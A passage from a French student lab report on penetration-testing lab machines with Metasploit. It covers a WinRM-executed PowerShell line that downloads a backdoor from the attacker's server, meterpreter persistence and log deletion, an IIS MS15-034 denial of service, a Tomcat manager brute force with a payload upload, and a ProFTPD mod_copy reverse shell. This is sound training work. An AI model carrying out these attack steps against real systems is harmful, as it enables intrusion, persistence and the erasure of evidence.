    
\includegraphics[width=12cm]{images/Rapport/kali/W2k8/winrm/6.png}
    \caption{Mise en place d'un serveur Apache}
  \end{figure}
  \item J'utilise donc maintnenant le module \emph{auxiliary/scanner/winrm/winrm\_cmd} afin de pouvoir exécuter du code dans l'invite de commande de la cible. 
  La commande que je vais utiliser sera \emph{"powershell -Command Invoke-WebRequest -Uri http://192.168.1.33/Backdoor.exe -OutFile littlegame.exe"} qui me permettra de télécharger la backdoor se trouvant sur 
  mon serveur web en passant par une commande powershell.
  \begin{figure}[H]
    \centering
    
\includegraphics[width=17cm]{images/Rapport/kali/W2k8/winrm/7.png}
    \caption{Téléchargement de la backdoor sur la cible}
  \end{figure}
  \item Vient le moment d'executer la backdoor. Pour cela, je mets en place un listener sur un autre terminal de façon à directement intéragir avec meterpreter quand j'aurais éxécuter
   la backdoor avant que la session ne meure.
   \begin{figure}[H]
    \centering
    \includegraphics[width=12cm]{images/Rapport/kali/W2k8/winrm/8.png}
    \includegraphics[width=12cm]{images/Rapport/kali/W2k8/winrm/9.png}
    \caption{Lancement de la backdoor et écoute de celle-ci}
  \end{figure}
  \item Je dois me dépêcher de migrer la session vers un autre PID car celle-ci a un temps de vie minime.
  \begin{figure}[H]
    \centering
    \includegraphics[width=15cm]{images/Rapport/kali/W2k8/winrm/10.png}
    \caption{Migration vers un autre pid}
  \end{figure}
  \item Je vérifie que tout fonctionne correctement en faisait un petit \emph{pwd} et un \emph{ls}. On peut d'ailleurs vérifier qu'il s'agit de ma machine car lors de mon \emph{ls} dans le dossier 
  \emph{C:\symbol{92}Users}, on y voit mon utilisateur \emph{ETU42877W} !
  \begin{figure}[H]
    \centering
    \includegraphics[width=14cm]{images/Rapport/kali/W2k8/winrm/12.png}
    \caption{Vérification que la session fonctionne bien}
  \end{figure}
  \item Ensuite, on rends notre backdoor persistente grâce a la commande \emph{run persistence}
  \begin{figure}[H]
    \centering
    \includegraphics[width=17cm]{images/Rapport/kali/W2k8/winrm/13.png}
    \caption{Run persistence}
  \end{figure}
  \item Il ne nous reste plus qu'à supprimer toutes traces de notre passage
  \begin{figure}[H]
    \centering
    \includegraphics[width=14cm]{images/Rapport/kali/W2k8/winrm/14.png}
    \caption{Suppression des logs}
  \end{figure}
\end{enumerate}
\textbf{IMPORTANT : } Les derniers points qui sont la persistence et la suppresion des logs sont les mêmes dès qu'on a un accès a meterpreter, je ne remontrerai donc pas ces points dans les prochaines attaques.


\subsection{Vulnérabilité : IIS HTTP}
Pour cette vulnérabilité, je me suis mis a chercher des potentiels modules et CVE qui pourraient être utile pour la version du service rencontré. Je suis alors tombé sur la \emph{CVE-2015-1635}
qui est une vulnérabilité dans le stack du protocole HTTP. Le module \emph{auxiliary/dos/http/ms15\_034\_ulonglongadd} exploite cette vulnérabilité pour faire une attaque \textbf{DOS}.
\begin{figure}[H]
  \centering
  \includegraphics[width=17cm]{images/Rapport/kali/W2k8/iis/1.png}
  \caption{Recherche de module associé a la CVE-2015-1635}
\end{figure}
Je remplis donc toutes les options et je lance cette attaque \textbf{très simple}.
\begin{figure}[H]
  \centering
  \includegraphics[width=14cm]{images/Rapport/kali/W2k8/iis/2.png}
  \caption{Lancement de l'attaque}
\end{figure}
J'avais ouvert sur un navigateur le site proposé par le service IIS pour voir si il répondrait encore en pensant que juste le service WEB crasherait, mais au final, c'est la machine Windows Server 2008
qui s'arrêtait de façon brutale. D'ailleurs, ce message d'erreur apparaissait une fois que la machine se remettait a reboot toute seule.
\begin{figure}[H]
  \centering
  \includegraphics[width=13cm]{images/Rapport/kali/W2k8/iis/3.png}
  \caption{Erreur Windows - DOS}
\end{figure}

\subsection{Vulnérabilité : Tomcat}
Etant donné que le service Tomcat n'est pas lancé de base sur la machine Windows Server 2k8, il a été nécessaire de l'activer manuellement, puis, de refaire un scan afin de découvrir ce service.

\begin{figure}[H]
  \centering
  \includegraphics[width=14cm]{images/Rapport/kali/W2k8/tomcat/1.png}
  \includegraphics[width=17cm]{images/Rapport/kali/W2k8/tomcat/Capture.png}
  \caption{Nouveau scan pour découvrir Tomcat}
\end{figure}

Pour cette attaque, j'ai tout d'abord commencé par un module qui me permettait de faire un brute force sur l'adresse http://192.168.1.29/manager, ce module est \emph{auxiliary/scanner/http/tomcat\_mgr\_login}.
Dans ce cas-ci, étant donné que j'avais l'accès a un wiki et que je manquais de temps car j'étais en blocus, j'ai mis les credentials directement en premier dans les listes de usernames et de passwords.
J'ai donc commencé à nouveau pas remplir les options.

\begin{figure}[H]
  \centering
  \includegraphics[width=14cm]{images/Rapport/kali/W2k8/tomcat/2.png}
  \caption{Completion des options du module}
\end{figure}

Maintenant que l'on a les credentials, il ne reste qu'à choisir un module nous permettant d'introduire un payload sur notre machine cible et l'executer. Pour cela, j'ai utilisé le module 
\emph{exploit/multi/http/tomcat\_mgr\_upload}. Celui-ci avait besoin des credentials trouvé précédemment ainsi que d'un payload. J'ai choisi de garder le payload par défaut qui est \emph{/java/meterpreter/reverse\_tcp}.
Nous pouvons voir sur cette figure que l'éxécution du payload fonctionne et que la console meterpreter s'ouvre bien. Le reste de la manipulation est exactement la même que pour la vulnérabilité \textbf{WinRM}.

\begin{figure}[H]
  \centering
  \includegraphics[width=14cm]{images/Rapport/kali/W2k8/tomcat/meterpreter.png}
  \caption{Execution du payload}
\end{figure}

\subsection{Vulnérabilité : FTP (Ubuntu)}
Etant donné que j'avais déjà fait cette attaque lors du cours de labo, j'ai décidé de la refaire. J'ai donc refait un scan mais cette fois-ci de la machine Ubuntu, puis grâce a la version du service 
\emph{ProFTPD} j'ai pu chercher des modules qui pourraient être intéressant à utiliser. Bien entendu, j'ai repris le même module que j'avais pu utiliser au labo.

\begin{figure}[H]
  \centering
  \includegraphics[width=14cm]{images/Rapport/kali/ubuntu/ftp/1.png}
  \caption{Recherche de modules pour ProFTPD 1.3.5}
\end{figure}

J'ai donc utilisé le module \emph{exploit/unix/ftp/proftpd\_modcopy\_exec}. Puis, il a fallu choisir un payload. J'ai choisis le payload plus ou moins au hasard mais étant donné que je savais déjà que le
\emph{reverse\_python} fonctionnait, j'ai choisis celui-là.

\begin{figure}[H]
  \centering
  \includegraphics[width=13cm]{images/Rapport/kali/ubuntu/ftp/2.png}
  \caption{Choix du payload}
\end{figure}

Voici un screenshot une fois toutes les options complétées. Il est intéressant de voir que j'ai modifié la variable \emph{SITEPATH} qui était \emph{/var/www} da base pour mettre \emph{/var/www/html} 
qui est souvent le répertoire utilisé par défaut pour stocker les pages web.

\begin{figure}[H]
  \centering
  \includegraphics[width=14cm]{images/Rapport/kali/ubuntu/ftp/3.png}
  \caption{Completion des options du module}
\end{figure}

Enfin, je lance l'exploit et je gagne un accès au shell. On peut d'ailleurs remarquer que la machine répond à mes commandes (\emph{ls, cat}). On peut remarquer dans le \emph{/etc/passwd} la présence de 
mon identifiant d'étudiant.

\begin{figure}[H]
  \centering
  \includegraphics[width=14cm]{images/Rapport/kali/ubuntu/ftp/4.png}
  \caption{Test et preuves}
\end{figure}













































\end{document}
